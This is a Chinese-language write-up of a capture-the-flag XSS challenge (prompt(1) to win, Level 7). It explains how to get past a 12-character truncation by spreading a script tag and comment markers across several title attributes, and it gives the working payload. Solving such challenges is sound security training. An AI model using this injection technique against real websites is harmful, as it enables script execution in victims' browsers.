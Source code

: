 ## [[prompt(1) to win](http://prompt.ml)] [[Level 7 - Length](http://prompt.ml/7)] [[解题报告](http://exp-blog.com/2019/03/23/pid-3672/)]

------

## 题目

```javascript
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

## 解题报告

题目代码很好理解：

- 使用 `#` 切割 input 的字符串，切割后的子串会被顺次放到若干个 `<p>` 标签的 `title` 属性中
- 子串长度若超过 12 则会被截断
- input 内容没有做任何过滤

可以使用这个探针看到前面的分析效果：

`11#2222#333333#44444444#5555555555#6666666666666666666666666#"><img src=0`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/01.png)


------------

需知道 javascript 代码有个特点：

- 在 HTML 语境中，`<script>` 和 `</script>` 标签之间的内容默认视为 js 代码
- js 代码换行后依然会自动拼接并生效
- js 代码内容之间的注释会被自动忽略

因此对于这种限制长度的注入点，可以搭配 `<script>` 和多行注释 `/* */` 进行绕过。

结合 `title` 属性值长度为 12 的限制进行考虑，可以尝试在本地构造这样的 HTML 代码，成功触发 prompt 事件：

```html
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script> "></p>
```

> 注意： `<script>` 和 `</script>` 标签用于声明 js 代码的范围，唯独这两个标签不能从中间断开到两行，否则多行注释 `/* */` 就不会起作用了。另外我在测试 payload 的时候，也尝试过 `<!-- -->` HTML 注释，但是尖括号会造成标签错位导致注入失败，有兴趣的同学可以研究下。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/02.png)

从前面构造的 HTML 代码中提取每一行的 `title` 属性值，使用 `#` 拼接，就得到最终 payload 如下，完成挑战：

`"><script>/*#*/prompt/*#*/(1)/*#*/</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2007%20-%20Length/imgs/03.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

